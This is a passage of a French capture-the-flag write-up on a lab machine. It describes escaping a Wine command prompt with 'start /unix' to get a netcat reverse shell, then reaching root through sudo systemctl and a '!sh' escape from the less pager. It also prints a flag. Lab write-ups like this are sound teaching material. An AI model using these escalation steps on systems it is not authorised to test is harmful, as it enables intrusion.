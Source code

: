 ```bash
11/16/2020   5:58 PM  <DIR>         Downloads
11/16/2020   5:58 PM  <DIR>         Favorites
11/16/2020   5:58 PM  <DIR>         Links
11/16/2020   5:58 PM  <DIR>         Local Settings
11/16/2020   5:58 PM  <DIR>         NetHood
11/16/2020   5:58 PM  <DIR>         PrintHood
11/16/2020   5:58 PM  <DIR>         Recent
11/16/2020   5:58 PM  <DIR>         Saved Games
11/16/2020   5:58 PM  <DIR>         Searches
11/16/2020   5:58 PM  <DIR>         SendTo
11/16/2020   5:58 PM  <DIR>         Start Menu
11/16/2020   5:58 PM  <DIR>         Temp
11/16/2020   5:58 PM  <DIR>         Templates
       0 files                        0 bytes
      20 directories      6,558,572,544 bytes free
```

Tout comme pour le CTF [CallMe](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20CallMe%20de%20VulnHub.md) j'ai utilisé la commande `start /unix` pour m'échapper de l'invite de commande Windows et obtenir un reverse shell avec `nc.traditional`.

Dans le dossier de l'utilisateur qui faisait tourner le service je trouve un script bash :

```shell
fox@netstart:/home/fox$ cat startup 
#!/bin/bash

xhost +si:localuser:fox
gsettings set org.gnome.desktop.session idle-delay 1
/usr/bin/wine login.exe
```

ainsi que le flag `75894c2b3d5c3b78372af63694cdc659`.

L'utilisateur peut utiliser `systemctl` avec les droits root, ce sera notre porte de sortie finale :

```bash
fox@netstart:/home/fox$ sudo -l
Matching Defaults entries for fox on netstart:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on netstart:
    (root) NOPASSWD: /usr/bin/systemctl
```

La plupart des commandes de listing de `systemctl` sont gérées par le pager `less` or il est possible d'obtenir un shell depuis en tapant `!sh` :

```bash
fox@netstart:/home/fox$ sudo /usr/bin/systemctl list-units
UNIT                                                                                     LOAD   ACTIVE SUB       DESCRIPTION                                                       
proc-sys-fs-binfmt_misc.automount                                                        loaded active waiting   Arbitrary Executable File Formats File System Automount Point     
sys-devices-pci0000:00-0000:00:01.1-ata2-host2-target2:0:0-2:0:0:0-block-sr0.device      loaded active plugged   VBOX_CD-ROM                                                       
sys-devices-pci0000:00-0000:00:03.0-net-enp0s3.device                                    loaded active plugged   82540EM Gigabit Ethernet Controller (PRO/1000 MT Desktop Adapter) 
sys-devices-pci0000:00-0000:00:05.0-sound-card0.device                                   loaded active plugged   82801AA AC'97 Audio Controller                                    
--- snip ---
systemd-modules-load.service                                                             loaded active exited    Load Kernel Modules                                               
systemd-random-seed.service                                                              loaded active exited    Load/Save Random Seed                                             
```
